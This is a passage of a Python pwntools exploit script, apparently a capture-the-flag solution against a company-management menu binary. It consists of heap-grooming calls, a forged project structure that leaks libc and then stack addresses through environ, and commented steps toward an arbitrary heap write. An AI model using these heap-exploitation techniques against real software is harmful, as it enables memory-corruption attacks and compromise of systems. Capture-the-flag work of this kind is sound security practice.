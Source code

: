 ```python
sell_company(b"wait2 ") 
sell_company(b"wait3 ") 
sell_company(b"wait1 ")   
sell_company(b"wait4 ")   

target_leak_libc_chunk=heap+0x164a0+0X20+0x10
payload=p64(target_leak_libc_chunk)+p64(0x40)+p64(0x40)+p64(0x13580+heap)+b"0"*0x20
fake_project=payload+p64(heap+0x13600)[:6]
add_company(fake_project+b" ",str(1200).encode())

add_company(b"l"*0x400+b" ",str(1200).encode())

worker_info(str(41).encode())
p.recvuntil(b"Project name: ")
libc=u64(p.recv(6).ljust(8,b"\x00"))-0x203b20
print("leak libc",hex(libc))

sell_company(fake_project+b" ")

add_company(b"get_money ",str(1200).encode())
add_project(b"get_money ",b"money ",b"1000000 ")

for i in range(0x10):
    elapse_week()

sell_company(b"get_money ")

add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

sell_company(b"wait3 ") 
sell_company(b"wait1 ")  
sell_company(b"wait2 ")  
sell_company(b"wait4 ")   

environ=libc+0x20ad58
target_leak_libc_chunk=environ
payload=p64(target_leak_libc_chunk)+p64(0x40)+p64(0x40)+p64(0x13580+heap)+b"0"*0x20
fake_project=payload+p64(heap+0x13600)[:6]
add_company(fake_project+b" ",str(1200).encode())
worker_info(str(41).encode())
p.recvuntil(b"Project name: ")
stack=u64(p.recv(6).ljust(8,b"\x00"))-0x138
print("leak stack",hex(stack))

# sell_company(fake_project+b" ")
# #0x50 [  4]: 0x5caac3a18530 —▸ 0x5caac3a15600 —▸ 0x5caac3a166c0 —▸ 0x5caac3a16850 ◂— 0

# add_company(b"wait1 ",str(1200).encode())
# add_company(b"wait2 ",str(1200).encode())
# add_company(b"wait3 ",str(1200).encode())
# add_company(b"wait4 ",str(1200).encode())

# sell_company(b"wait3 ") 
# sell_company(b"wait1 ")  
# sell_company(b"wait2 ")  
# sell_company(b"wait4 ")   

# arbitary address write heap
add_company(b"llk4 ",str(1200).encode())

```